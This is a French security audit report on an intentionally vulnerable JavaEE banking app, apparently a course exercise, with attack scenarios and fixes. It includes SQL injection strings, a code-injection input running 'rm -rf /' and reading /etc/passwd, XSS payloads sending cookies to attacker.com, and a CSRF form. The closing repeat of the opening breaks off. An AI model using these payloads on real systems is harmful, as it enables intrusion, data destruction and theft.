



# Rapport d'Audit de Sécurité - Application Bancaire JavaEE
 
## 1. Description fonctionnelle et technique de l'application
 
### 1.1 Description fonctionnelle
 
L'application est une application bancaire web permettant la gestion de comptes bancaires. Elle offre les fonctionnalités suivantes :
 
**Pour les clients (rôle CLIENT) :**
- Connexion/Déconnexion
- Consultation de ses comptes bancaires (par ID ou par email du propriétaire)
- Réalisation de transactions (crédit/débit) sur ses comptes
 
**Pour les administrateurs (rôle ADMIN) :**
- Toutes les fonctionnalités des clients
- Création de nouveaux comptes bancaires
- Consultation de tous les comptes (par ID ou par email du propriétaire)
 
### 1.2 Architecture technique
 
L'application suit une architecture MVC (Model-View-Controller) :
 
- **Modèle** : Classes `Bank`, `User`, `Account` dans le package `model`
- **Vue** : Pages JSP dans `src/main/webapp/view/`
- **Contrôleur** : Servlets dans le package `controllers`
 
**Stack technique :**
- Java 21
- Jakarta EE (Servlet API 6.0)
- JSP avec JSTL
- MySQL (base de données `bankdb`)
- Apache Tomcat 11.x
- Maven pour la gestion des dépendances
 
**Structure des packages :**
```
src/main/java/
├── controllers/          # Servlets (contrôleurs)
├── model/               # Modèles métier (Bank, User, Account)
├── persistence/         # Couche d'accès aux données (JDBC)
└── security/            # Gestion de l'authentification/autorisation
```
 
### 1.3 Modélisation UML
 
#### Diagramme de classes simplifié
 
```
┌─────────────┐
│    Bank     │ (Singleton)
├─────────────┤
│ +getInstance()│
│ +createAccount()│
│ +findAccountById()│
│ +updateBankAccount()│
└─────────────┘
       │
       │ uses
       ▼
┌─────────────┐
│ IPersistence│
└─────────────┘
       ▲
       │ implements
       │
┌──────────────────────┐
│JdbcMySQLMainPersistence│
└──────────────────────┘
       │
       │ uses
       ├──► JdbcUsersPersistence
       └──► JdbcAccountsPersistence
 
┌─────────────┐
│    User     │
├─────────────┤
│ -email      │
│ -name       │
│ -password   │
│ -roles      │
└─────────────┘
 
┌─────────────┐
│   Account   │
├─────────────┤
│ -accountId  │
│ -owner:User │
│ -balance    │
└─────────────┘
```
 
#### Diagramme de séquence - Authentification
 
```
Client → AutheticationServlet → Bank → JdbcUsersPersistence → MySQL
         ↓
      Session créée
      Cookie "ClientRole" défini
```
 
## 2. Méthodologies d'audit réalisées
 
### 2.1 Revue de code statique (Code Review)
 
Analyse manuelle du code source pour identifier :
- Injections SQL
- Injections de code
- Failles XSS (Cross-Site Scripting)
- Problèmes d'authentification/autorisation
- Gestion des sessions
- Validation des entrées
- Gestion des erreurs
 
### 2.2 Tests d'intrusion en mode boîte blanche
 
Tests manuels avec connaissance du code source pour :
- Vérifier l'exploitabilité des vulnérabilités identifiées
- Comprendre les vecteurs d'attaque
- Valider les scénarios d'exploitation
 
### 2.3 Tests d'intrusion en mode boîte noire
 
Tests manuels sans connaissance du code pour :
- Identifier les vulnérabilités visibles depuis l'extérieur
- Tester les mécanismes de sécurité côté client
 
## 3. Vulnérabilités identifiées
 
### 3.1 Injection SQL (SQL Injection)
 
#### 3.1.1 Description
 
L'application construit des requêtes SQL en concaténant directement les valeurs des paramètres utilisateur sans utilisation de requêtes préparées (PreparedStatement). Cela permet à un attaquant d'injecter du code SQL malveillant dans les requêtes.
 
#### 3.1.2 Codes de référence
 
- **OWASP Top 10 2021** : A03:2021 – Injection
- **CWE** : CWE-89 (SQL Injection)
- **CVSS** : Critique (9.8)
 
#### 3.1.3 Fichiers concernés et extraits de code
 
**Fichier : `src/main/java/persistence/users/JdbcUsersPersistence.java`**
 
```44:45:src/main/java/persistence/users/JdbcUsersPersistence.java
public User findUserByEmailAndPwd(String email, String pwd) throws Exception {
    String sql = "SELECT email, name, roles FROM users WHERE email = '" + email + "' and password = '" + pwd + "'";
```
 
**Fichier : `src/main/java/persistence/users/JdbcUsersPersistence.java`**
 
```56:58:src/main/java/persistence/users/JdbcUsersPersistence.java
public User findUserByEmail(String userEmail) throws Exception {
    String sql = "SELECT email, name, roles FROM users WHERE email = '" + userEmail + "'";
    System.out.println(sql);
```
 
**Fichier : `src/main/java/persistence/bankAccounts/JdbcAccountsPersistence.java`**
 
```36:38:src/main/java/persistence/bankAccounts/JdbcAccountsPersistence.java
public Account save(Account a) throws Exception {
    String sql = "INSERT INTO accounts(owner_email) VALUES ('" + a.getOwner().getEmail() + "')";
    try (Statement st = conn.createStatement()) {
```
 
**Fichier : `src/main/java/persistence/bankAccounts/JdbcAccountsPersistence.java`**
 
```49:52:src/main/java/persistence/bankAccounts/JdbcAccountsPersistence.java
public Account findById(int accountId) throws SQLException {
    //String sql = "SELECT * FROM accounts WHERE account_id = " + accountId;
    String sql = "SELECT * FROM accounts a INNER JOIN users u ON a.owner_email = u.email WHERE account_id = " + accountId;
    //System.out.println(sql);
```
 
**Fichier : `src/main/java/persistence/bankAccounts/JdbcAccountsPersistence.java`**
 
```68:71:src/main/java/persistence/bankAccounts/JdbcAccountsPersistence.java
public List<Account> findByOwnerEmail(String ownerEmail) throws SQLException {
    List<Account> accounts = new ArrayList();
    String sql = "SELECT * FROM accounts a INNER JOIN users u ON a.owner_email = u.email WHERE a.owner_email = '" + ownerEmail + "'";
    System.out.println(sql);
```
 
**Fichier : `src/main/java/persistence/bankAccounts/JdbcAccountsPersistence.java`**
 
```85:88:src/main/java/persistence/bankAccounts/JdbcAccountsPersistence.java
public void updateBalance(int accountId, double amount) throws SQLException {
    String sql = "UPDATE accounts SET balance = balance + " + amount + " WHERE account_id = " + accountId;
    try (Statement st = conn.createStatement()) {
        st.executeUpdate(sql);
```
 
#### 3.1.4 Scénarios d'attaque
 
**Scénario 1 : Bypass d'authentification**
 
Dans le formulaire de connexion (`login_logout_form.jsp`), un attaquant peut utiliser :
- **Email** : `admin@bank.com' OR '1'='1`
- **Password** : `' OR '1'='1`
 
La requête SQL générée devient :
```sql
SELECT email, name, roles FROM users WHERE email = 'admin@bank.com' OR '1'='1' and password = '' OR '1'='1'
```
 
Cela permet de se connecter sans connaître les identifiants réels.
 
**Scénario 2 : Extraction de données**
 
Dans la recherche de comptes par email (`ViewAccountServlet`), un attaquant peut injecter :
- **pOwnerEmail** : `' UNION SELECT email, name, roles FROM users WHERE '1'='1`
 
Cela permet d'extraire tous les utilisateurs de la base de données.
 
**Scénario 3 : Modification de données**
 
Dans la fonction `updateBalance`, un attaquant peut injecter :
- **accountId** : `1; UPDATE accounts SET balance = 999999 WHERE account_id = 1; --`
 
Cela permet de modifier le solde de n'importe quel compte.
 
#### 3.1.5 Analyse d'impact
 
**Impact critique** :
- Accès non autorisé aux comptes utilisateurs
- Vol de données sensibles (emails, mots de passe en clair, rôles)
- Modification/Suppression de données (soldes, comptes)
- Élévation de privilèges (obtention du rôle ADMIN)
- Compromission complète de la base de données
 
---
 
### 3.2 Injection de code (Code Injection)
 
#### 3.2.1 Description
 
L'application utilise un moteur JavaScript (Nashorn) pour évaluer dynamiquement des expressions arithmétiques dans les transactions. Un attaquant peut injecter du code JavaScript malveillant qui sera exécuté côté serveur.
 
#### 3.2.2 Codes de référence
 
- **OWASP Top 10 2021** : A03:2021 – Injection
- **CWE** : CWE-94 (Code Injection)
- **CVSS** : Critique (9.1)
 
#### 3.2.3 Fichiers concernés et extraits de code
 
**Fichier : `src/main/java/model/Bank.java`**
 
```58:65:src/main/java/model/Bank.java
// VULNERABLE: code injection (the amount could be an arithmetic expressions in javascript syntax for flexibiliy)
public void updateBankAccount(int accountId, String amountExpression) throws Exception {
    System.out.println(amountExpression);
    ScriptEngineManager manager = new ScriptEngineManager();
    ScriptEngine engine = manager.getEngineByName("js");
    Number result = (Number) engine.eval(amountExpression);
    double amount = result.doubleValue();
    this.persistence.updateBalance(accountId, amount);
```
 
**Fichier : `src/main/java/controllers/TransactionServlet.java`**
 
```28:32:src/main/java/controllers/TransactionServlet.java
int accountId= Integer.parseInt(req.getParameter("pAccountId"));
String amountExpression = req.getParameter("pAmountExpression");
try {
    bank.updateBankAccount(accountId, amountExpression);
    req.setAttribute("TransactionOK", true);
```
 
#### 3.2.4 Scénarios d'attaque
 
**Scénario 1 : Exécution de code arbitraire**
 
Dans le formulaire de transaction (`do_transaction.jsp`), un attaquant peut injecter :
- **pAmountExpression** : `100; java.lang.Runtime.getRuntime().exec("rm -rf /")`
 
Cela permet d'exécuter des commandes système arbitraires sur le serveur.
 
**Scénario 2 : Accès au système de fichiers**
 
- **pAmountExpression** : `100; java.io.File.listFiles()`
 
Cela permet de lister les fichiers du serveur.
 
**Scénario 3 : Exfiltration de données**
 
- **pAmountExpression** : `100; java.nio.file.Files.readAllLines(java.nio.file.Paths.get("/etc/passwd"))`
 
Cela permet de lire des fichiers sensibles du système.
 
#### 3.2.5 Analyse d'impact
 
**Impact critique** :
- Exécution de code arbitraire sur le serveur
- Accès au système de fichiers
- Compromission complète du serveur
- Exfiltration de données sensibles
- Installation de backdoors
- Utilisation du serveur comme point de départ pour d'autres attaques
 
---
 
### 3.3 Cross-Site Scripting (XSS) - Stored et Reflected
 
#### 3.3.1 Description
 
L'application affiche des données utilisateur sans les encoder, permettant l'injection de scripts JavaScript malveillants qui seront exécutés dans le navigateur des victimes.
 
#### 3.3.2 Codes de référence
 
- **OWASP Top 10 2021** : A03:2021 – Injection
- **CWE** : CWE-79 (Cross-site Scripting)
- **CVSS** : Moyen (6.1)
 
#### 3.3.3 Fichiers concernés et extraits de code
 
**Fichier : `src/main/webapp/view/view_accounts.jsp`**
 
```37:41:src/main/webapp/view/view_accounts.jsp
<tr>
    <!-- NOT ENCODED -> Stored XSS possible -->
    <td>${account.accountId}</td>
    <td>${account.owner.email}</td>
    <td>${account.owner.name}</td>
    <td>${account.balance}</td>
```
 
**Fichier : `src/main/webapp/index.jsp`**
 
```39:42:src/main/webapp/index.jsp
<c:if test="${not empty param.message}">
     <div class="div-message ${param.messageType eq 'success' ? 'success-message' : 'error-message'}">
            ${param.message}                           
     </div>
</c:if>
```
 
**Fichier : `src/main/java/controllers/AutheticationServlet.java`**
 
```48:49:src/main/java/controllers/AutheticationServlet.java
message = "Successful connection!";
response.sendRedirect("./index.jsp?messageType=success&message="+message);
```
 
**Fichier : `src/main/java/controllers/AutheticationServlet.java`**
 
```56:56:src/main/java/controllers/AutheticationServlet.java
response.sendRedirect("./view/login_logout_form.jsp?messageType=error&message="+message);
```
 
#### 3.3.4 Scénarios d'attaque
 
**Scénario 1 : XSS Reflected via paramètre URL**
 
Un attaquant peut créer un lien malveillant :
```
http://bank-app.com/index.jsp?messageType=success&message=<script>alert(document.cookie)&…
```
 
Lorsque la victime clique sur ce lien, le script s'exécute et peut voler les cookies de session.
 
**Scénario 2 : XSS Stored via nom d'utilisateur**
 
Si un attaquant peut créer un compte avec un nom contenant du JavaScript :
- **Name** : `<script>document.location='http://attacker.com/steal?cookie='+document.cookie</script>`
 
Ce script sera stocké en base et exécuté chaque fois que le nom est affiché.
 
**Scénario 3 : Vol de session**
 
Un script plus sophistiqué peut voler le cookie de session et l'envoyer à un serveur contrôlé par l'attaquant :
```javascript
<script>
var img = new Image();
img.src = "http://attacker.com/steal?cookie=" + document.cookie;
</script>
```
 
#### 3.3.5 Analyse d'impact
 
**Impact moyen à élevé** :
- Vol de cookies de session (hijacking de session)
- Vol d'informations d'authentification
- Redirection vers des sites malveillants
- Exécution d'actions au nom de l'utilisateur authentifié
- Défacement de pages web
 
---
 
### 3.4 Authentification faible
 
#### 3.4.1 Description
 
Plusieurs faiblesses dans le mécanisme d'authentification :
- Mots de passe stockés en clair dans la base de données
- Protection contre les attaques par force brute basée sur des cookies modifiables côté client
- Pas de mécanisme de verrouillage de compte
 
#### 3.4.2 Codes de référence
 
- **OWASP Top 10 2021** : A07:2021 – Identification and Authentication Failures
- **CWE** : CWE-256 (Plaintext Storage of a Password), CWE-307 (Improper Restriction of Excessive Authentication Attempts)
- **CVSS** : Élevé (7.5)
 
#### 3.4.3 Fichiers concernés et extraits de code
 
**Fichier : `src/main/java/persistence/users/JdbcUsersPersistence.java`**
 
```44:46:src/main/java/persistence/users/JdbcUsersPersistence.java
public User findUserByEmailAndPwd(String email, String pwd) throws Exception {
    String sql = "SELECT email, name, roles FROM users WHERE email = '" + email + "' and password = '" + pwd + "'";
    System.out.println(sql);
```
 
**Fichier : `src/main/java/controllers/AutheticationServlet.java`**
 
```74:113:src/main/java/controllers/AutheticationServlet.java
private void limiteRequetes(HttpServletRequest request, HttpServletResponse response) throws IOException, LimiteNbRequestsExceededException {
    int nbRequetes = 0;
    long debutDelai = System.currentTimeMillis();
 
    Cookie nbCookie = rechercherCookie(request, "nbRequetes1min");
    Cookie debutCookie = rechercherCookie(request, "debutDelai");
 
    if (nbCookie != null) {
        try { nbRequetes = Integer.parseInt(nbCookie.getValue()); } catch (Exception e) { nbRequetes = 0; }
    }
    if (debutCookie != null) {
        try { debutDelai = Long.parseLong(debutCookie.getValue()); } catch (Exception e) { debutDelai = System.currentTimeMillis(); }
    }
 
    if (debutCookie == null || (System.currentTimeMillis() - debutDelai) > DELAI_SECONDES * 1000) {
        debutDelai = System.currentTimeMillis();
        nbRequetes = 1;
    } else {
        nbRequetes++;
    }
 
    if (nbRequetes > LIMITE) {
        response.setStatus(429);
        
        String message = "Request limit has been reached (" + LIMITE + " requests/minute) !";
        throw new LimiteNbRequestsExceededException (message);
    }
    Cookie newNbCookie = new Cookie("nbRequetes1min", String.valueOf(nbRequetes));
    newNbCookie.setMaxAge(DELAI_SECONDES);
    newNbCookie.setPath("/");
 
    Cookie newDebutCookie = new Cookie("debutDelai", String.valueOf(debutDelai));
    newDebutCookie.setMaxAge(DELAI_SECONDES);
    newDebutCookie.setPath("/");
 
    response.addCookie(newNbCookie);
    response.addCookie(newDebutCookie);
```
 
#### 3.4.4 Scénarios d'attaque
 
**Scénario 1 : Attaque par force brute**
 
Un attaquant peut contourner la limitation basée sur les cookies en supprimant ou modifiant les cookies `nbRequetes1min` et `debutDelai`. Il peut alors effectuer un nombre illimité de tentatives de connexion.
 
**Scénario 2 : Vol de mots de passe**
 
Si un attaquant accède à la base de données (via SQL Injection), il peut lire tous les mots de passe en clair et les réutiliser sur d'autres sites si les utilisateurs réutilisent leurs mots de passe.
 
**Scénario 3 : Attaque par dictionnaire**
 
Un attaquant peut utiliser une liste de mots de passe courants pour tenter de se connecter à tous les comptes.
 
#### 3.4.5 Analyse d'impact
 
**Impact élevé** :
- Compromission de comptes utilisateurs
- Accès non autorisé aux comptes bancaires
- Vol d'identité
- Perte financière pour les utilisateurs
 
---
 
### 3.5 Contrôle d'accès insuffisant (Broken Access Control)
 
#### 3.5.1 Description
 
Plusieurs problèmes de contrôle d'accès :
- Le rôle utilisateur est stocké dans un cookie modifiable côté client
- La servlet `TransactionServlet` ne vérifie pas l'authentification ni l'autorisation
- Pas de vérification que l'utilisateur ne peut modifier que ses propres comptes
 
#### 3.5.2 Codes de référence
 
- **OWASP Top 10 2021** : A01:2021 – Broken Access Control
- **CWE** : CWE-639 (Authorization Bypass Through User-Controlled Key), CWE-284 (Improper Access Control)
- **CVSS** : Critique (9.1)
 
#### 3.5.3 Fichiers concernés et extraits de code
 
**Fichier : `src/main/java/controllers/AutheticationServlet.java`**
 
```44:46:src/main/java/controllers/AutheticationServlet.java
HttpSession session = request.getSession(true);
session.setAttribute("principal", user);
Cookie roleCookie = new Cookie("ClientRole", user.isAdmin() ? "ADMIN" : "CLIENT");
```
 
**Fichier : `src/main/java/controllers/TransactionServlet.java`**
 
```26:43:src/main/java/controllers/TransactionServlet.java
@Override
protected void doPost(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {
    //int accountId= Integer.parseInt(req.getParameter("pAccountId"));
    int accountId= Integer.parseInt(req.getParameter("pAccountId"));
    String amountExpression = req.getParameter("pAmountExpression");
    try {
        bank.updateBankAccount(accountId, amountExpression);
        req.setAttribute("TransactionOK", true);
        Account a = bank.findAccountById(accountId);
        List<Account> accounts = new ArrayList<Account>();
        accounts.add(a);
        req.setAttribute("accounts", accounts);
        req.getRequestDispatcher("./view/view_accounts.jsp").forward(req, resp);   
    }
    catch (Exception e) {
        req.setAttribute("TransactionOK", false);
    }
}
```
 
**Fichier : `src/main/webapp/index.jsp`**
 
```26:33:src/main/webapp/index.jsp
<c:if test="${cookie.ClientRole.value eq 'ADMIN'}">
    <li><a href="./view/admin/create_bank_account_form.jsp">Create a bank account</a></li>
    <li><a href="./view/admin/view_accounts_form.jsp">View account(s)</a></li>
</c:if>
<c:if test="${cookie.ClientRole.value eq 'CLIENT'}">
    <li><a href="./view/client/view_accounts_form.jsp">View account(s)</a></li>
    <li><a href="./view/client/do_transaction.jsp">Perform a transaction</a></li>  
</c:if>
```
 
**Fichier : `src/main/java/controllers/ViewAccountServlet.java`**
 
```91:97:src/main/java/controllers/ViewAccountServlet.java
try {   // défaut : critère de recherche réalisé dans la Servlet  
    int accountId= Integer.parseInt(req.getParameter("pAccountId"));
    String ownerEmail= req.getParameter("pOwnerEmail");
    Account a = bank.findAccountById(accountId);  
    //System.out.println("--- " + accounts.size());
    if (a != null &&a.getOwner().getEmail().equals(ownerEmail)) {
        List<Account> accounts = new ArrayList<Account>();
```
 
#### 3.5.4 Scénarios d'attaque
 
**Scénario 1 : Élévation de privilèges via cookie**
 
Un utilisateur avec le rôle CLIENT peut modifier le cookie `ClientRole` en `ADMIN` pour accéder aux fonctionnalités administrateur :
1. Ouvrir les outils de développement du navigateur
2. Modifier le cookie `ClientRole` de `CLIENT` à `ADMIN`
3. Accéder aux pages d'administration
 
**Scénario 2 : Transaction non autorisée**
 
Un attaquant peut effectuer des transactions sur n'importe quel compte sans authentification :
1. Envoyer une requête POST à `/transaction` avec n'importe quel `pAccountId`
2. Modifier le solde de n'importe quel compte
 
**Scénario 3 : Accès aux comptes d'autres utilisateurs**
 
Un attaquant peut consulter les comptes d'autres utilisateurs en modifiant le paramètre `pOwnerEmail` dans `ViewAccountServlet`.
 
#### 3.5.5 Analyse d'impact
 
**Impact critique** :
- Accès non autorisé aux fonctionnalités administrateur
- Modification de comptes bancaires d'autres utilisateurs
- Vol d'argent
- Consultation de données sensibles d'autres utilisateurs
- Création de comptes frauduleux
 
---
 
### 3.6 Exposition de données sensibles
 
#### 3.6.1 Description
 
Les identifiants de connexion à la base de données sont codés en dur dans le code source, et les messages d'erreur peuvent révéler des informations sensibles sur la structure de l'application.
 
#### 3.6.2 Codes de référence
 
- **OWASP Top 10 2021** : A02:2021 – Cryptographic Failures, A04:2021 – Insecure Design
- **CWE** : CWE-312 (Cleartext Storage of Sensitive Information), CWE-209 (Information Exposure Through an Error Message)
- **CVSS** : Moyen (5.3)
 
#### 3.6.3 Fichiers concernés et extraits de code
 
**Fichier : `src/main/java/persistence/JdbcMySQLMainPersistence.java`**
 
```22:34:src/main/java/persistence/JdbcMySQLMainPersistence.java
private String dbName = "bankdb";
private String dbUserName= "root";
private String udbUserPassword="";
 
private Connection conn;
 
private JdbcAccountsPersistence accountPersistence;
private JdbcUsersPersistence usersPersistence;
 
public JdbcMySQLMainPersistence() {
     try {
         Class.forName("com.mysql.cj.jdbc.Driver");
         this.conn = DriverManager.getConnection("jdbc:mysql://localhost:3306/"+dbName +"?serverTimezone=UTC&characterEncoding=utf8", dbUserName, udbUserPassword);
```
 
**Fichier : `src/main/java/persistence/users/JdbcUsersPersistence.java`**
 
```44:47:src/main/java/persistence/users/JdbcUsersPersistence.java
public User findUserByEmailAndPwd(String email, String pwd) throws Exception {
    String sql = "SELECT email, name, roles FROM users WHERE email = '" + email + "' and password = '" + pwd + "'";
    System.out.println(sql);
    
    Statement st = conn.createStatement();
```
 
#### 3.6.4 Scénarios d'attaque
 
**Scénario 1 : Accès à la base de données**
 
Si le code source est compromis (fuite de code, accès au serveur), un attaquant peut directement se connecter à la base de données avec les identifiants codés en dur.
 
**Scénario 2 : Fuite d'informations via logs**
 
Les requêtes SQL sont imprimées dans les logs système (`System.out.println`), ce qui peut révéler des informations sensibles si les logs sont accessibles.
 
#### 3.6.5 Analyse d'impact
 
**Impact moyen** :
- Accès direct à la base de données si le code source est compromis
- Fuite d'informations via les logs
- Facilitation d'autres attaques
 
---
 
### 3.7 Validation d'entrée insuffisante
 
#### 3.7.1 Description
 
L'application ne valide pas correctement les entrées utilisateur avant de les traiter, permettant l'injection de données malveillantes.
 
#### 3.7.2 Codes de référence
 
- **OWASP Top 10 2021** : A03:2021 – Injection
- **CWE** : CWE-20 (Improper Input Validation)
- **CVSS** : Moyen (6.5)
 
#### 3.7.3 Fichiers concernés et extraits de code
 
**Fichier : `src/main/java/controllers/ViewAccountServlet.java`**
 
```62:64:src/main/java/controllers/ViewAccountServlet.java
String searchType = req.getParameter("searchBy");
if (searchType.equals("serachById")) {
    int accountId= Integer.parseInt(req.getParameter("pAccountId"));
```
 
**Fichier : `src/main/java/controllers/TransactionServlet.java`**
 
```28:30:src/main/java/controllers/TransactionServlet.java
int accountId= Integer.parseInt(req.getParameter("pAccountId"));
String amountExpression = req.getParameter("pAmountExpression");
try {
```
 
#### 3.7.4 Scénarios d'attaque
 
**Scénario 1 : Exception non gérée**
 
Si un paramètre attendu est manquant ou invalide, l'application peut lever une exception non gérée, révélant des informations sur la structure interne.
 
**Scénario 2 : Contournement de validation**
 
Un attaquant peut envoyer des données dans un format inattendu pour contourner les validations côté client.
 
#### 3.7.5 Analyse d'impact
 
**Impact moyen** :
- Facilitation d'autres attaques (SQL Injection, Code Injection)
- Fuite d'informations via les messages d'erreur
- Comportement imprévisible de l'application
 
---
 
### 3.8 Absence de protection CSRF
 
#### 3.8.1 Description
 
L'application ne vérifie pas les tokens CSRF (Cross-Site Request Forgery), permettant à un attaquant de forcer un utilisateur authentifié à effectuer des actions non désirées.
 
#### 3.8.2 Codes de référence
 
- **OWASP Top 10 2021** : A01:2021 – Broken Access Control
- **CWE** : CWE-352 (Cross-Site Request Forgery)
- **CVSS** : Moyen (6.5)
 
#### 3.8.3 Fichiers concernés
 
Toutes les servlets qui acceptent des requêtes POST (`TransactionServlet`, `CreateBankAccountServlet`, `AutheticationServlet`) ne vérifient pas les tokens CSRF.
 
#### 3.8.4 Scénarios d'attaque
 
**Scénario 1 : Transaction non autorisée**
 
Un attaquant peut créer une page web malveillante qui envoie automatiquement une requête POST à `/transaction` lorsque la victime visite la page :
 
```html
<form id="csrf" action="http://bank-app.com/transaction" method="POST">
    <input type="hidden" name="pAccountId" value="1">
    <input type="hidden" name="pAmountExpression" value="-1000">
</form>
<script>document.getElementById("csrf").submit();</script>
```
 
Si la victime est authentifiée, la transaction sera exécutée.
 
#### 3.8.5 Analyse d'impact
 
**Impact moyen à élevé** :
- Exécution d'actions non autorisées au nom d'utilisateurs authentifiés
- Transactions frauduleuses
- Modification de données sans consentement
 
---
 
## 4. Synthèse des vulnérabilités
 
| # | Vulnérabilité | Sévérité | OWASP | CWE | Impact |
|---|---------------|----------|-------|-----|--------|
| 1 | Injection SQL | Critique | A03 | CWE-89 | Accès complet à la base de données |
| 2 | Injection de code | Critique | A03 | CWE-94 | Compromission complète du serveur |
| 3 | Cross-Site Scripting | Moyen | A03 | CWE-79 | Vol de session, hijacking |
| 4 | Authentification faible | Élevé | A07 | CWE-256, CWE-307 | Compromission de comptes |
| 5 | Contrôle d'accès insuffisant | Critique | A01 | CWE-639, CWE-284 | Accès non autorisé |
| 6 | Exposition de données sensibles | Moyen | A02, A04 | CWE-312, CWE-209 | Fuite d'informations |
| 7 | Validation d'entrée insuffisante | Moyen | A03 | CWE-20 | Facilitation d'attaques |
| 8 | Absence de protection CSRF | Moyen | A01 | CWE-352 | Actions non autorisées |
 
## 5. Recommandations de correction
 
### 5.1 Injection SQL
- Utiliser des **PreparedStatement** pour toutes les requêtes SQL
- Valider et sanitizer toutes les entrées utilisateur
- Utiliser un ORM (Hibernate, JPA) avec des requêtes paramétrées
 
### 5.2 Injection de code
- Ne jamais utiliser `ScriptEngine.eval()` avec des entrées utilisateur
- Valider strictement les expressions arithmétiques (regex, parser)
- Utiliser une bibliothèque de parsing d'expressions sécurisée
 
### 5.3 Cross-Site Scripting
- Encoder toutes les sorties avec `c:out` ou `fn:escapeXml()`
- Utiliser Content Security Policy (CSP)
- Valider et encoder toutes les entrées
 
### 5.4 Authentification
- Hasher les mots de passe avec bcrypt ou Argon2
- Implémenter un mécanisme de limitation côté serveur (rate limiting)
- Ajouter un verrouillage de compte après X tentatives échouées
- Implémenter l'authentification à deux facteurs (2FA)
 
### 5.5 Contrôle d'accès
- Stocker les rôles uniquement côté serveur (session)
- Vérifier l'authentification/autorisation dans toutes les servlets
- Implémenter le principe du moindre privilège
- Vérifier que les utilisateurs ne peuvent accéder qu'à leurs propres données
 
### 5.6 Exposition de données sensibles
- Utiliser des variables d'environnement ou un fichier de configuration sécurisé
- Ne jamais logger les requêtes SQL avec des données sensibles
- Utiliser un gestionnaire de secrets (HashiCorp Vault, AWS Secrets Manager)
 
### 5.7 Validation d'entrée
- Valider toutes les entrées côté serveur
- Utiliser des bibliothèques de validation (Bean Validation, Hibernate Validator)
- Rejeter par défaut, accepter explicitement
 
### 5.8 Protection CSRF
- Implémenter des tokens CSRF pour tous les formulaires
- Utiliser le pattern Synchronizer Token Pattern
- Vérifier le header `Referer` ou `Origin`
 
## 6. Conclusion
 
L'application présente **de multiples vulnérabilités critiques** qui compromettent gravement sa sécurité. Les failles les plus critiques sont :
 
1. **L'injection SQL** qui permet un accès complet à la base de données
2. **L'injection de code** qui permet la compromission complète du serveur
3. **Le contrôle d'accès insuffisant** qui permet des accès non autorisés
 
**Niveau de sécurité global : TRÈS FAIBLE**
 
L'application n'est **pas prête pour un déploiement en production** et nécessite des corrections majeures avant toute utilisation réelle. Il est recommandé de :
 
- Effectuer une refonte complète des mécanismes de sécurité
- Implémenter toutes les recommandations de correction
- Effectuer un nouvel audit après les corrections
- Mettre en place un processus de sécurité continue (tests automatisés, code review, scans de vulnérabilités)
 
---
 
**Date de l'audit** : [Date à compléter]  
**Auditeurs** : [Noms à compléter]  
**Version de l'application** : tp1-banque-unsecured-v0
 
 
 
# Rapport d'Audit de Sécurité - Application Bancaire JavaEE
 
## 1. Description fonctionnelle et technique de l'application
 
### 1.1 Description fonctionnelle
 
L'application est une application bancaire web permettant la gestion de comptes bancaires. Elle offre les fonctionnalités suivantes :
 
**Pour les clients (rôle CLIENT) :**
- Connexion/Déconnexion
- Consultation de ses comptes bancaires (par ID ou par email du propriétaire)
- Réalisation de transactions (crédit/débit) sur ses comptes
 
**Pour les administrateurs (rôle ADMIN) :**
